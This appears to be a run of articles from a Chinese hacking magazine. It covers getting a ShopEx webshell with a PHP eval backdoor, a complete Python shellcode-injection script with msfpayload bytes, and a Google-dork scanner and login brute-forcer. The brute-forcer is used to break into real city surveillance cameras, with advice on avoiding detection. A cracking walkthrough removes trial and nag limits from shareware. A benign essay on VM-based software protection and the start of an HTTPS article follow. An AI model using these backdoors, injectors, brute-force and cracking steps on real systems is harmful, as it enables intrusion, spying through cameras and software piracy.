可以安装 php 整合软件 Comsenz 来搭建实验环境，Comsenz 最新版本为 2.5，其下载地址为：`http://www.comsenz.com/downloads/install/exp/`。

- 3）安装 shopex4.8.5

将 shopex4.8.5 程序复制到网站根目录，访问 `http://192.168.206.129/shopex/install/index.php` 进行安装，按照提示进行安装即可。安装结束后会要求提供 shopExID，这个 id 可以通过注册免费获取，不需要填写真实信息，随便填。

写一个信息，注册成功后登录后，访问 `http://my.shopex.cn/index.php?ctl=my&act=product` 就可以获取 shopExID，如图 2 所示，否则无法访问后台。我从网上下载了几个声称破解版均未测试成功。将该 shopExID 和注册的密码输入进行验证即可通过授权验证。


图 2 获取 shopExID

#### 4）获取 PHP 环境信息

如果 install/svinfo.php 文件未被删除，通过访问 `http://192.168.206.128/shopex/install/svinfo.php?phpinfo=true` 即可获取 php 环境等信息，这些信息对进一步渗透很有帮助，获取操作系统、路径（DOCUMENT_ROOT、SCRIPT_FILENAME）以及相关配置等信息，如图 3 所示。


图 3 获取 phpinfo 信息

### 后台管理员权限通过模板编辑获取 webshell

##### 1）编辑 info.xml 文件

进入后台后，单击“页面管理”->“模板管理”->“模板列表”->“模板文件管理”，查看当前使用的模板文件信息，直接对 info.xml 进行编辑，或者访问地址：`http://192.168.206.128/shopex/shopadmin/index.php#ctl=system/tmpimage&act=detail&p[0]=/1354864820-info.xml`，直接读取和修改 info.xml 文件内容，如图 4 所示。


图 4 查看和编辑模板文件

##### 2）修改模板文件内容

直接修改 **info.xml** 文件的内容，其内容可以是一句话后门 `<?php @eval($_POST['cmd']);?>`，也可以是大马等。保存一次后，会显示“文件修改历史”，在下面会显示文件修改的备份文件。如图 5 所示，复制还原链接地址，并将 `p[1]=info.xml` 文件修改为 `p[1]=info.php`，`p[1]` 可以是任何 php 文件，比如 `p[1]=antian365.php` 等。也可以直接访问以下地址：

`http://192.168.206.129/shopex/shopadmin/index.php?ctl=system/tmpimage&act=recoverSource&p[0]=info.bak_2.xml&p[1]=info.php&p[2]=1354864820`。


图 5 修改文件内容并保存

### 3）获取 shell

再次访问模板文件管理，即可查看刚才生成的 **info.php** 文件，如图 6 所示，一句话后门地址为：`http://192.168.206.129/shopex/themes/1354864820/info.php`。


图 6 生成 webshell

### 4）测试 webshell

使用一句话后门最新版，下载地址（http://www.maicaidao.com/caidao-20141213.zip），新增一条记录，如图 7 所示，说明 webshell 获取成功。


图 7 获取 webshell

#### 后台管理员密码获取

对于通过后台进行管理员密码更改的，其加密方式虽然是 MD5 加密，但根据网上资料，普通会员加密值是 md5(md5(password).md5(regtime).admin))，这个值即使是最简单的密码恐怕也破解不了。因此通过注入获取管理员的密码意义不大，笔者建议通过后台进行社工测试：一是通过已知的管理员账号（绝大部分默认为 admin），输入一些简单密码进行登录测试；第二个就需要社工库进行查询，通过查询管理员或者网站管理员的邮箱等信息进行查询；第三个就是通过嗅探 FTP 等方式。

（完）

### 编写 ShellCode 注入程序

文/图 light（NEURON）

说起注入，大家第一印象可能还习惯性地停留在 SQL 注入、脚本注入（XSS）等。今天 light 同(jiao)学(shou)带大家从 Web 端回到操作系统，一起探讨 Windows 下的经典注入——内存注入，使用 Python 编写一个简单的代码注入程序。

内存注入常见的方法有 DLL 注入和代码注入。DLL 注入通俗地讲就是把我们自己的 DLL 注入到目标进程的地址空间内，“寄生”在目标进程里执行。DLL 注入需要另外一个“推进器”程序将我们的“寄生虫”DLL“注”进目标进程中。代码注入和 DLL 注入的思路一致，只是“寄生虫”代码与“推进器”代码在同一个程序里面。

> DLL 文件：Windows 动态链接库。在 Windows 中，许多应用程序并不是一个完整的可执行文件，它们被分割成一些相对独立的动态链接库，即 DLL 文件，放置于系统中。当我们执行某一个程序时，相应的 DLL 文件就会被调用。

这次我们的实验选取“代码注入”这一课题。废话不多说，开始动手！

#### 准备工作

编写 Python 小程序，light 同学推荐性感的 Sublime Text2 + JEDI（Python 自动补全插件）。首先安装 Sublime Text2 的“插件管理”插件 Package Control。

打开 Sublime 后，组合键“Ctrl+~”调出控制台，将以下代码粘贴进命令行并回车。

```python
import urllib2,os;pf='Package Control.sublime-package';ipp=sublime.installed_packages_path();os.makedirs(ipp) if not os.path.exists(ipp) else None;open(os.path.join(ipp,pf),'wb').write(urllib2.urlopen('http://sublime.wbond.net/'+pf.replace(' ','%20')).read())
```

安装完毕后重启 Sublime Text2，输入 Ctrl + Shift + P 后输入 Install Package，如图 1 所示。


之后再输入“jedi”，回车安装，如图 2 所示。


图 2

磨刀不误砍柴工，装好插件，我们开始正式写代码。

#### 烹饪开始

- 原料：Windows 7、Python 2.7、Sublime Text 2、msfpayload
- 必备技能：Windows API 基础、Python 基础、Metasploit 基础。

这次的注入代码主要借助 Python 的 ctypes 库，这个库能让 Python 直接调用 Windows API，非常方便。

```python
#-*- coding:utf-8 -*-
##### 导入 sys 库以及 ctypes 库
import sys
from ctypes import *

PAGE_EXECUTE_READWRITE = 0x00000040
PROCESS_ALL_ACCESS = (0x000F0000 | 0x00100000 | 0xFFF)
VIRTUAL_MEM = (0x1000 | 0x2000)

kernel32 = windll.kernel32
pid = int(sys.argv[1])

if not sys.argv[1]:
    print "Code Injector: ./code_injector.py <PID to inject>"
    sys.exit(0)
```

shellcode 使用 msfpayload 生成的，我这里是一个计算器，当然你可以直接生成一个后门程序。生成代码：`msfpayload windows/exec CMD=calc.exe EXITFUNC=thread C`

```python
shellcode = ("\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30"
"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
"\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2"
"\xf0\x52\x57\x8b\x52\x10\x8b\x42\x3c\x01\xd0\x8b\x40\x78\x85"
"\xc0\x74\x4a\x01\xd0\x50\x8b\x48\x18\x8b\x58\x20\x01\xd3\xe3"
"\x3c\x49\x8b\x34\x8b\x01\xd6\x31\xff\x31\xc0\xac\xc1\xcf\x0d"
"\x01\xc7\x38\xe0\x75\xf4\x03\x7d\xf8\x3b\x7d\x24\x75\xe2\x58"
"\x8b\x58\x24\x01\xd3\x66\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b"
"\x04\x8b\x01\xd0\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff"
"\xe0\x58\x5f\x5a\x8b\x12\xeb\x86\x5d\x6a\x01\x8d\x85\xb9\x00"
"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xaa\xc5\xe2\x5d"
"\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75"
"\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5\x63\x61\x6c\x63"
"\x2e\x65\x78\x65\x00")

code_size = len(shellcode)

##### 获取我们要注入的进程句柄
h_process = kernel32.OpenProcess(PROCESS_ALL_ACCESS, False, int(pid))

if not h_process:
    print "[*] Couldn't acquire a handle to PID: %s" % pid
    sys.exit(0)

# 为我们的 shellcode 申请内存
arg_address = kernel32.VirtualAllocEx(h_process, 0, code_size, VIRTUAL_MEM,
                                      PAGE_EXECUTE_READWRITE)

# 在内存中写入 shellcode
written = c_int(0)
kernel32.WriteProcessMemory(h_process, arg_address, shellcode, code_size, byref(written))

# 创建远程线程，指定入口为我们的 shellcode 头部
thread_id = c_ulong(0)
if not kernel32.CreateRemoteThread(h_process, None, 0, arg_address, None, 0, byref(thread_id)):
    print "[*] Failed to inject shellcode. Exiting."
    sys.exit(0)

print "[*] Remote thread successfully created with a thread ID of: 0x%08x" % thread_id.value
```

句柄：句柄与普通指针的区别在于，指针包含的是引用对象的内存地址，而句柄则是由系统所管理的引用标识，该标识可以被系统重新定位到一个内存地址上。这种间接访问对象的模式增强了系统对引用对象的控制。

可以看到，之所以能进行内存注入，主要归功于 Windows 开放的一个关键 API：CreateRemoteThread。这个函数允许我们创建一个在其他进程地址空间中运行的线程（也称创建远程线程）。

整个注入过程可以划分为三个步骤：获取目标进程句柄，把 shellcode 写入内存，创建远程线程。这也是内存注入的基本原理和机制。在使用 msfpayload 生成 shellcode 时，有两个坑需要注意。

- 坑一：msfpayload 生成 shellcode 时，不能使用 msfencode。有些资料告诉我们生成 shellcode 时要在后面加上 `msfencode -b '\x00'` 来避免空字节，但是 msfencode 一旦使用，默认就会使用 `x86/shikata_ga_nai` 等编码器对 shellcode 编码一次。这里 light 同学推荐大家用 `msfpayload xxx C` 的方式来生成纯净的 shellcode。
- 坑二：`msfpayload windows/exec CMD=calc.exe C` 直接生成的 shellcode 执行结果是宿主 100% 崩溃，简直就是进程杀手。我在测试过程中，把用来测试的百度云管家崩得天昏地暗。这个坑花了好久才跳出来。后来好基友用 OllyDbg 调试发现 shellcode 退出时直接 exit process，把整个进程都结束了，如图 3 所示。


图 3

在基友热心帮助下，再参考 msfpayload 官方文档后顿悟，果断修改 EXITFUNC 的值为 thread（默认为 process），如图 4 所示。


图 4

再次运行，测试成功！如图 5 所示。


图 5

最后，我们可以把这个 Python 脚本用 py2exe 打包成 exe 可执行文件。有兴趣的话还可以加上 UI，做成一个可以定制不同注入类型（DLL 或代码注入）、注入代码（反向后门或恶作剧程序）的程序。

### Python 打造网络渗透工具

文/图 黄澄 马智超（DesertEagle）

Python 作为脚本语言，简洁、易读，我认为它是一种代表简单主义思想的语言，拥有一个庞大而又丰富的标准库。用 Python 写出来的渗透工具有很多，此篇文章讲述用 Python 打造一个渗透小工具。我所编写的渗透工具框架分为三个部分，一个是目标特征数据库，一个是网络扫描程序，一个是攻击程序。本文主要介绍扫描部分，依据这个部分我举了个例子加以说明其作用。

#### 逻辑分析

第一步，Python 利用搜索引擎爬取相应 URL 信息，这里以 Google 为例。Google 搜索有其特定的搜索技巧，有人曾写了 Google Hack 一书，相信大家都看过。现在我们开始写代码，定义函数实现这一功能。有两种方法，一种是用程序模拟浏览器抓取页面信息，另一种是利用 Google API 爬取页面信息，这里采用的是第二种方法。首先抓取 Referer 信息，如图 1 所示。

```text
referer: https://www.google.com.hk/
user-agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/39.0.2171.99 Safari/537.36 LBBROWSER
```

图 1

由图中我们可以看到 Referer 信息，可以利用 Google API 来实现爬取 Google 搜索关键字后得到的页面信息，然后筛选 URL 打印出来，核心代码如下：

```python
for x in range(5):
    print "page:%s" % (x+1)
    page = x * 4
    url = ('https://ajax.googleapis.com/ajax/services/search/web'
           '?v=1.0&q=%s&rsz=8&start=%s') % (urllib.quote(seachstr), page)
    try:
        request = urllib2.Request(
            url, None, {'Referer': 'https://www.google.com.hk/'})
        response = urllib2.urlopen(request)
        results = simplejson.load(response)
        infoaaa = results['responseData']['results']
    except Exception, e:
        print e
    else:
        for m in infoaaa:
            print m['url']
```

下面我们随便爬取一个关键字看看效果，爬 CGI 目录，定义关键字为 `inurl:cgi-bin/main.cgi`，如图 2 所示。


图 2

随便点击一个页面进去，如图 3 所示。


图 3

看了图 3 相信大家已经知道是什么了，下面就不截图了。第二步，编写攻击模块代码。仅扫描到 URL 地址还不够，我们还需要攻击模块代码进一步入侵。对于第二个模块，对于不同的目标，我们可以编写不同的攻击代码，这里我们拟写入侵 WEB 后台登录的代码。可以从两方面下手，一个是抓取网页的 HTTP 响应信息，然后用程序模拟浏览器，提交 POST 请求，爆破；另一个是利用相应的漏洞。第二种方法更加灵活，本文只讲第一种攻击代码的编程。核心代码如下：

```python
##### 定义登录网站函数
def login(self):
    """登录网站"""
    loginparams = {'domain': self.domain, 'email': self.name, 'password': self.pwd}
    headers = {'User-Agent': 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/31.0.1650.57 Safari/537.36'}
    req = urllib2.Request(loginurl, urllib.urlencode(loginparams), headers=headers)
    response = urllib2.urlopen(req)
    self.operate = self.opener.open(req)
    thePage = response.read()

##### 自定义函数读取用户登录信息
def setLoginInfo(self, username, password, domain):
    """设置用户登录信息"""
    uname_count = len(open('name.txt', 'rU').readlines())
    print inYellow('你的账号条数：%d' % (uname_count))
    pwd_count = len(open('pwd.txt', 'rU').readlines())
    print inBlue('你的密码条数：%d' % (pwd_count))
```

```python
names = [line.rstrip() for line in open("name.txt")]
pwds = [line.rstrip() for line in open("pwd.txt")]
```

利用这个核心代码框架，我们就可以爬取到很多信息了。这个框架看起来简单，加工一下就会看到很实用的效果，这里举一个案例来说明：扫描城市摄像头监控系统。

### 案例：扫描城市摄像头

这里把摄像头分为两种，一是本地局域网型摄像头监控系统，如图 3 所示。


图 3

此类摄像头监控系统没有联网，对于此类我们可以进入与此摄像头同一局域网内，然后去扫描网段，写个爬虫爬取信息，依据不同摄像头监控系统的特征，扫描定位。

另一类是网络 IP 型摄像头监控，如图 4 和图 5 所示。我们可以根据公网 IP 扫描，不一定要在同一局域网内也可以扫描定位到，然后同样用爬虫去爬，找对应漏洞，入侵进去。思路就是这样，关键是定义什么样的特征信息。


图 4


图 5

这里进行了一个简单的测试，自定义摄像头监控系统特征信息，进行扫描，扫到了很多的 URL，随便打开一个，界面如图 6 所示。


图 6

是个登录界面，接下来我们进行爆破，成功进去后界面如图 7 所示。我们可以打开摄像头实时监控，但不要远程转动摄像头，这样会被发现。由图可见，许多摄像头监控系统还存在着很多安全性的问题。


图 7

图 8 和图 9 是我以前扫描到的摄像头监控系统截图。


图 8


图 9

以上就是测试的效果图。整个渗透工具框架从根本上看是基于 Python 爬虫原理完成的，用心加工一下，增加更多的功能，使用起来就会更加方便。而对于一些摄像头监控系统，如果增加登录次数限制、图片验证码识别等功能，可以大大提高系统的安全性。总而言之，抓取网页数据并为网页内容创建索引爬取数据，这就是爬虫的工作模式，但我一直认为有更好的抓取数据的方法。

### 基于虚拟机的软件保护技术

文/图 木羊

基于虚拟机的软件保护技术不确定是否首先由 VMProtect 提出，但 VMProtect 毫无疑问是将这项技术大力推广至人所周知。现在基于虚拟机的软件保护技术已经成为现代软件安全防护的必备功能之一。本文并不打算对 VMProtect 或其他某款软件安全套件进行深入讨论，而着眼于研究基于虚拟机的软件保护技术的起源、思想和实现。

#### 现有软件保护技术概述

传统的软件保护技术，根据针对对象不同，可分为反静态调试和反动态调试两大类。反静态调试主要针对对象为反汇编器。反汇编器通过面向特定平台的反汇编引擎（如 PC 平台即为 X86 反汇编引擎），将编译器生成的二进制文件还原成汇编代码，有经验的逆向工程师可以据此还原出算法等核心运算机制。反静态调试主要是通过特定区段加密等方式，将核心信息保护起来，只在运行期才通过解密等算法动态还原，阻碍反汇编器静态地将二进制文件还原成汇编码。

反动态调试主要针对对象为调试器，由于经过静态加密的二进制码最终必须解密才能执行，因此通过 OllyDbg 等动态调试器仍然可以加以查看，反动态调试通过检测调试器和屏蔽调试端口等各种反调试技术阻止逆向工程师通过调试器跟踪软件进程的运行情况，使得软件的运行时状况始终保持处于黑盒状态。

#### 被动型软件保护概念

上述两种保护方案均采取主动出击的策略，意图“御敌于国之外”，中心思想是一个“挡”字，阻止逆向工程师窥视软件内部机理，但盾与矛的对抗总是无休止的，并没有任何一种主动型软件保护手段能真正彻底阻断逆向工程，因此另一种“以人为本”的被动型软件保护技术开始走向斗争舞台的中央。

被动型软件保护手段基于一个假设，即逆向工程师已经通过各种办法突破了主动型软件保护措施，可以随心所欲地观察一切，此时“挡”已经挡不住了，只能采取“藏”的策略，通过提高核心代码的隐藏性来提高逆向工程在阅读反汇编代码阶段的时间成本投入，间接起到软件保护的效果。

被动型软件保护手段具体实现方式主要有乱序和混淆。

乱序是指在程序执行流中添加跳转指令，如 `jmp`。通过这些跳转指令，将一个从上至下执行的完整代码块切分成若干执行先后顺序不一致的代码片段。乱序能够一定程度上增加反汇编代码的阅读难度，但若只是简单地植入无条件跳转，很容易被识别和去除，因此工业级的保护产品往往通过采用条件跳转的方式增加识别难度。乱序保护技术的原理模型如图 1 所示。


图 1

混淆是指通过加入无意义代码（又称为花指令或垃圾代码）或者有意义代码，增加反汇编代码的理解难度。俗话说要藏好一棵树，最好的地点一定是森林，混淆技术就是通过代码膨胀增加反汇编代码的总量，为隐藏核心代码构造出一片代码“森林”。早期增加的混淆代码为无意义代码，实现类 `nop` 操作的执行效果，如 `push` 指令和 `pop` 指令搭配使用，但这类代码无实际意义，去除后并不会对软件运行产生影响。因此有经验的逆向工程师往往会首先去除这些无意义的混淆代码，才开始进行反汇编代码的阅读工作，使混淆技术失去效果。

为了确保混淆代码不被去除，工业级的保护产品更倾向于采用有意义的混淆代码，核心思想是等价替换，通过多条指令实现核心代码中一条指令的效果。如最简单的赋值指令 `mov eax, 3`，可以替换成 `xor eax, eax; inc eax; inc eax; inc eax` 这四条指令，操作效果一样，但指令数量翻了两番。

被动型软件保护技术究竟能否对软件安全起到实质性的作用，业界一直存在争论。反对的观点主要集中在认为被动型软件保护技术只是提高了阅读反汇编代码的难度和数量，让人“眼花”而已，并没有任何实质性的效果。本文认为，软件安全不该简单理解成让软件绝对安全不可攻破，而实际该是攻方与防方、投入与产出的反复博弈过程，攻方人力的投入自然也是成本之一。一个人单位时间内阅读代码的数量是固定的，因此，提高了阅读反汇编代码的难度和数量，也就提高了阅读反汇编代码的时间，提高了攻方人力成本的投入，对软件安全是有切实效果的。

### 虚拟机软件保护技术

#### 1）虚拟机软件保护的思想

虚拟机软件保护技术是被动型软件保护技术的分支，具体来说是添加有意义的混淆代码的一种变型使用。

虚拟机技术目前在软件领域应用广泛，根据应用层级不同，基本可分为硬件抽象层虚拟机、操作系统层虚拟机和软件应用层虚拟机。用于保护软件安全的虚拟机属于软件应用层虚拟机，同层的虚拟机还包括高级语言虚拟机，如 Java 程序语言运行环境 JVM 和 .NET 程序语言运行环境 CLR。后者采用虚拟机的原因是便于移植，因此编译器没有直接生成可直接在机器上执行的 native code，而改为生成中间代码 byte-code，再通过在不同机器环境下安装对应版本的虚拟机对 byte-code 进行解释执行，从而实现跨平台运行。

用于保护软件安全的虚拟机采用类似的流程。虚拟机保护软件首先会对被保护的目标程序的核心代码进行“编译”——需要注意的是，这里被编译的不是源文件，而是二进制文件——并生成效果等价的 byte-code，然后为软件添加虚拟机解释引擎。用户最终使用软件时，虚拟机解释引擎会读取 byte-code，并进行解释执行，从而实现用户体验完全一致的执行效果。

#### 2）虚拟机软件保护的实现

- ① 编译生成 byte-code

要设计一套虚拟机保护软件，首先要设计一套虚拟机指令，也即是 byte-code 的指令集表。生成 byte-code 的过程，实际是将原始机器指令流等价转译成虚拟机指令流的过程。

虚拟机指令集表应满足以下两条设计原则：

第一条设计原则是虚拟机指令集表与原始机器指令集表越正交越好，安全系数越高。最坏的情况是虚拟机指令集表与原始机器指令集表为一一对应关系，采用这种指令集的虚拟机保护程序安全系数趋近于零，对于逆向工程师而言只需要进行简单换算，即可还原出原始代码。

另一条设计原则是应尽可能具备图灵完备性，能够完整表达出原始机器指令的所有可能表达。图灵完备性越好，则虚拟机保护引擎的保护覆盖范围越广，健壮性越高。理想状态下，虚拟机指令集应完整实现对原始机器指令集的等价替代，需要完全满足图灵完备性。但实际上完整替代的代价过高，甚至不太可能实现，如 x86 指令集的 `FCLEX`、`FPTAN` 等指令，仿真难度较高，且核心代码使用这类指令的可能性很小。综合效费比考虑，虚拟机指令集通常并不涵盖这些“生僻”指令。对于不能仿真的指令，可以采取退出虚拟机执行、获取执行结果再进入虚拟机的方法解决。

- ② 解释执行 byte-code

在软件运行时，编译产生的 byte-code 由内嵌入软件可执行文件中的虚拟机解释引擎，采用读取-分派的方式解释执行。

虚拟机解释引擎分为两大部分，分别为 Dispatcher 和 Handle。虚拟机解释引擎的架构如图 2 所示。


图 2

Dispatcher 的中文字面意思为“分派器”，相当于虚拟机解释引擎的 CPU，负责读取 byte-code，并指派对应的 Handle 进行解释执行。

Handle 的中文字面意思为“处理”，实际作用为虚拟机指令通过平台 native code（如 PC 平台即为 x86 指令）的实现。Handle 的数量与虚拟机指令集的指令数量是一致的。

- ③ 虚拟机的进入和退出问题

软件保护虚拟机与高级语言虚拟机并不完全一样，主要体现在高级语言虚拟机由始至终均在虚拟机环境下执行，但软件保护虚拟机必须经历本地环境与虚拟机环境的切换。为了保证执行结果的一致性，必须要求虚拟机环境能够正确获取和还原本地环境的执行上下文。

较为便捷的方法是采用堆栈机模型，即虚拟机基于堆栈来进行数据操作。进入虚拟机前，先将本地环境压栈，虚拟机直接以栈地址执行指令流操作，退出虚拟机后，再一一出栈，从而保证了上下文在不同执行环境的无缝切换。

#### 结语

基于虚拟机的软件保护技术可以大大增加逆向工程还原代码的难度。一套设计良好的软件保护虚拟机能够显著增加代码还原所需的时间，从而抬高逆向工程的成本，达到软件保护的效果。但采用虚拟机并非有百利而无一害，和高级语言虚拟机一样，软件保护虚拟机同样面临会导致执行效率降低的问题。安全和效率总是处于相生相斥的关系，具体偏重只能根据生产环节的要求具体权衡。

（完）

### 抽丝剥茧：巧用逆向分析破解未注册软件

文/图 贾志明

在逆向分析过程中，由于操作系统都会提供完善的调试接口，所以利用各类调试工具可以非常方便灵活地观察和控制目标软件。通过使用各种调试工具，往往可以达到事半功倍的破解效果。下面，我们使用 OD（OllyDbg）软件，融入一些破解技巧，层层深入破解典型的未注册版软件。

#### 突破：获取未注册版通讯录软件的功能

首先，我们打开本次测试的软件：PixtopianBook.exe，对软件功能进行检测。打开界面后，我们发现这是一个未注册的通讯录软件，有很多功能限制。其中，最典型的限制是只能有三个分组，每组不能超过 4 个人。也就是说，你用未注册版，联系人只能有 12 个人！如图 1 所示。


图 1

现在的目标，就是要把这个通讯录给破解掉，多联系几个人！那么，在破解过程中，需要使用哪些技巧呢？

- 1）处理异常提醒

打开 PixtopianBook.exe 后，按 F9 直接运行，发现有异常提醒，用【Shift+F9】忽略异常。或者如图 2 进行设置。


图 2

因为是 32 位操作系统，所以 `00000000-FFFFFFFF` 就是整个内存段了。在调试选项里添加这个异常范围后，即可解决这个问题。此时，再打开程序，就没有异常出现了。

**【小提示】**我们可以把异常当作是一种消息，应用程序发生异常时就触发了该消息并告知系统。系统接收后同样会找它的“回调函数”，也就是我们的异常处理例程。当然，如果我们在程序中没有做异常处理的话，系统也不会置之不理，它将弹出我们常见的应用程序错误框，然后结束该程序。

##### 2）突破【限制人数】功能

在 OD 运行弹出的软件界面试图添加第 5 个人，出现错误提示框，如图 3 所示。


图 3

很多朋友看到有 MessageBox 后，就直接去搜索 API，通过 API 和字符串入手，观察上下，尝试爆破。但是，这个效率会很低。正所谓“魔高一尺，道高一丈”，现在的程序设计者也越来越聪明，比如，他们会使用间接调用：先调用一个自己的进程，在进程里再调用 MessageBox 来混淆视听，避免破解。

怎么解决这个问题呢？

正确方法是：在 OD 中按下暂停（暂停后 OD 中的地址会跳至动态链接库，即系统领空处），然后按【Alt+F9】返回到用户界面，在用户界面点击“确定”后，OD 中就返回到程序接管，地址跳转到如图 4 所示的位置。


图 4

图 4 中的 MessageBoxA 就应该是刚才的错误提示框了。按 F8 键回到 `retn` 指令，返回到函数中，如图 5 所示。


图 5

**注意：**使用 `ret` 指令返回后，在上方又有一个 `call` 指令，说明在此处是间接地调用 MessageBox。

修改后保存。载入后，重新启动软件，已经可以突破人数添加的限制了。

##### 3）突破【分组限制】功能

道理和突破人数限制一样，修改后如图 6 所示，可以添加无限制的分组了：


图 6

##### 4）修改标题

接下来查找几处“unregistered version”字符串，并将其修改。

- 1. 直接点击【Memory】，按下【Ctrl+B】查找“unregistered version”，修改后记住字符串在内存中的地址，到 CPU 的数据窗口保存。【建议用这种方法】
- 2. 查找所有参考文本字符串，逐一查找文本“unregistered version”，然后跟随到代码处，找到在内存中的地址，在数据窗口中修改并保存。

注意：修改时记得【保持大小】，否则会出错。  
修改之后，界面如图 7 所示。


图 7

到此，就完成了试验，主要的两个功能模块（人数添加和分组添加）得到了实现。

【小知识】关于 SEH（Structured Exception Handling），即结构化异常处理。SEH 是 Windows 操作系统提供的功能，跟开发工具无关。Windows 程序设计中最重要的理念就是消息传递、事件驱动。当 GUI 应用程序触发一个消息时，系统将把该消息放入消息队列，然后去查找并调用窗体的消息处理函数（CALLBACK），传递的参数当然就是这个消息。当我们改变思维方式，以 CALLBACK 的思想来看待 SEH，SEH 将不再神秘。

#### 出击：破解未注册版软件的使用次数限制

通过上面的破解，我们已经有了不少信心。下面，继续来破解另一款软件：VisualSite Designer.exe，这是一个类似 Photoshop 的软件。

##### 1）破解的思路

仔细观察一个程序，我们会发现，无论怎么加密，无论在哪里加密，其目的就是要你掏腰包获得更多的功能或者解除限制。那么，我们就可以用逆向的思维来思考，如果该程序成功注册后，那么程序的行为必将发生变化，如 NAG 去除了，如功能限制没有了，等等。也就是说，程序的代码执行流程也会跟未注册的时候截然不同。因为程序的行为改变了，那么决定它所有行为的代码走法也会发生变化。

##### 2）认识 OD 的两种断点

OllyDbg 从原理上来区分，有两种不同的断点：软件断点和硬件断点。也许会有朋友说那不是还有内存断点吗？严格来说，内存断点是属于一种特殊的软件断点。

###### （1）内存断点

- 内存断点每次只能设置一个，假如你设置了另一个内存断点，则上一个会被自动删除。
- 设置一个内存断点，会改变整块（4KB）内存的属性，哪怕你只设置一个字节的内存断点。

另外还需要提一下的是，内存断点会明显降低 OD 的性能，因为 OD 经常会校对内存。

###### （2）软件断点

- 当我们按下 F2 设置的断点就是软件断点。
- 设置该断点的原理是在断点处重写代码，插入一个 `int3` 中断指令。当 CPU 执行到 `int3` 指令的时候，OD 就可以获得控制权。

###### （3）硬件断点

- 这个原理跟软件断点不同，硬件断点的可行性依赖于 CPU 的物理支持。
- 传说中，有这么一些寄存器，它们只用于调试，我们称为调试寄存器：Dr0~Dr7。
- 其中 Dr0~Dr3 四个寄存器用来存放中断地址，Dr4、Dr5 保留不使用，Dr6、Dr7 用来记录 Dr0~Dr3 的属性（如读、写还是执行，单位是字节、字还是双字）。
- 因此，这就解释了为什么硬件断点只有四个，其原因就在于天生不足。

要如何区分何时使用何种断点呢？这两种断点在使用上都有它们自身的限制，只要搞清楚它们各自的特性就知道何时该用哪个了。首先来看看下面的例子吧！

运行软件后，会发现有使用次数的限制，如图 8 所示。


图 8

关闭程序后有广告弹出，如图 9 所示。


图 9

##### 3）去除使用次数的限制

首先，找到诸如 NAG 窗口调用的方法。一路按 F8，遇到停止的 `call` 处（或者说遇到 NAG 的 `call` 处）设置断点，再按 F7 键进入。直到找到最终 `call` 出 NAG 的地方，如图 10 所示。


图 10

注意：在上述的过程中，设置断点的方式有两类：  
（1）程序领空处设置软件断点；  
（2）动态链接库，即系统领空处设置硬件断点。

图 10 即为最终调用 NAG 的 `call` 处，这句 `call` 语句执行了两件事：  
（1）计数器减一，即剩余使用次数减一；  
（2）弹出程序。

然后，将该处汇编为：`mov eax, 1`。保存修改，再执行，提示使用次数限制的 NAG 窗口便消失了。

##### 4）去除广告

关闭软件主界面后，会弹出广告，如图 11 所示。


图 11

在 OD 界面按下暂停键，按下【K】查看堆栈调用情况，如图 12 所示。


图 12

通过观察发现，只有一个是来自应用程序的堆栈，其他都是动态链接库的（系统），跟随到该处地址，如图 13 所示。


图 13

将图中的 `call` 直接 `nop` 掉，再保存修改载入，广告就没有了！

##### 5）狡兔三窟：程序行为改变后的破解

以上是程序行为未发生改变时的破解，接下来讲程序行为发生改变后的破解。程序行为发生改变是指注册前和注册后的行为发生改变，或者说表现在程序可用和程序不可用时的行为有了不同。如本例程序中，如果把限制的使用次数用完会发生什么情况呢？很简单，程序就不给我们打开了！那程序不给我们打开了，它的代码走的路线就会不同，即代码行为发生了改变。可谓“狡兔三窟”！

判断代码走的路线有两种方案，一种是条件判断，一种是 jump+变量（后一种以后再介绍）。这里用第一种：OD 载入原始程序（从未修改过的最初版）从开始一直 F8 走，碰到跳转（黄色的）进行注释，跳转实现的注释 Y，未实现的注释 N。就这样耐心地注释到最终调用 NAG 窗口的地方。为什么要这么做呢？这可以说是破解程序的不二选择，或者说是最保守的方法。注释完成后，将软件使用次数用完，使程序行为发生改变。

> 【小提示】注释的作用。注释的目的是为了和行为发生改变后的代码做对比，通过对比，找出不一样的关键处，也就知道了程序行为改变的原因了。这种方法可以称为破解的绝对方案（也就是绝对行得通的方案）。

按照此方法，对比不同的地方，如图 14 所示。


图 14

图 14 中的 `jle` 是导致代码行为发生改变的“重要嫌疑犯”。该跳转在程序可用时（软件使用次数未用完）是未实现跳转，现在程序不可用时（软件使用次数用完了）变为了跳转实现，又是在最靠近 NAG 的地方，所以它引起了我们的注意！

于是，尝试修改这条 `jle` 指令，在它上方将 `test eax,eax` 修改为 `mov eax,1`。因为在 `test eax,eax` 处 `eax` 的值显示为 0，将其改为 1 的话，应该就使其不跳转了。如图 15 所示。


图 15

修改完毕，保存程序。载入修改后的程序，运行之后，发现虽然 NAG 窗口提示剩余使用次数为 0 次，但依然可以进入使用软件了。同理，运用之前说过的方法再去除广告和 NAG 窗口之后，一个没有使用次数限制、没有广告、没有 NAG 的软件就呈现在我们面前了！

在这个进阶破解的过程中，我们肯定有许多不一样的收获。尤其是通过上述步骤，结合逆向分析的思路，哪怕“狡兔三窟”，我们也可以轻松“拿下”许多未注册版软件了。

（完）

### 自定义证书 Android 实现 HTTPS 通信

文/图 耿靓

现在手机应用越来越多地融入到我们的日常生活中。在手机给我们的生活带来便利的同时，信息泄露也越来越成为一个重大的安全隐患。尤其是进行网络数据传输时，数据很有可能被中间人盗取、篡改。如何保证数据传输过程中的完整性、保密性已经成为不可逃避的话题。不对称加密进行数据传输的方式，就可以简单、方便地解决上述问题。在此，我就以一个 Android 手机客户端程序通过 HTTPS 调用 C# 端开发的 WebService 为例，简单说一下实现流程。

- 开发环境：VS2008，adt-bundle-windows
